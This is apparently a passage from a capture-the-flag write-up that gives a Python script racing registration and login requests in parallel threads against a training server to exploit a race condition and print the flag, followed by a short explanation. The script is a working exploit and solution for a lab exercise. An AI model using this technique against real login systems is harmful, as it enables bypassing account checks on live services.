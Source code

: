 \begin{verbatim}
import requests
import threading
import re
from uuid import uuid4


# Send registration request
def register(user, pwd):
    requests.post(
        "http://aart.training.jinblack.it/register.php",
        data={"username": user, "password": pwd}
    )


# Send login request and check the result
def login(user, pwd):
    global flag_found
    r = requests.post(
        "http://aart.training.jinblack.it/login.php",
        data={"username": user, "password": pwd}
    )
    # Search for the flag in the server response
    # using a regular expression. If the flag is found
    # display it and set flag_found to true
    flag = re.findall(r"flag\{.+\}", r.text)
    if len(flag) > 0:
        flag_found = True
        print(flag[0])


flag_found = False
while not flag_found:
    user = uuid4()  # Random unique username
    pwd = uuid4()  # Random unique password
    t1 = threading.Thread(target=register, args=(user,pwd))
    t2 = threading.Thread(target=login, args=(user,pwd))
    t1.start()
    t2.start()
    # Wait for both threads to finish
    t2.join()
    t1.join()
\end{verbatim}

The script attempts to exploit the vulnerability by starting two threads one immediately after the other. The first one performs the registration, while the second one performs the login and checks if the flag is present. Since there are no guarantees that the second thread will perform the login at the exact correct time, we repeat the process in a \texttt{while} loop until it succeeds. Anyway, empirical tests show that exploiting the vulnerability doesn't usually require more than a couple attempts.
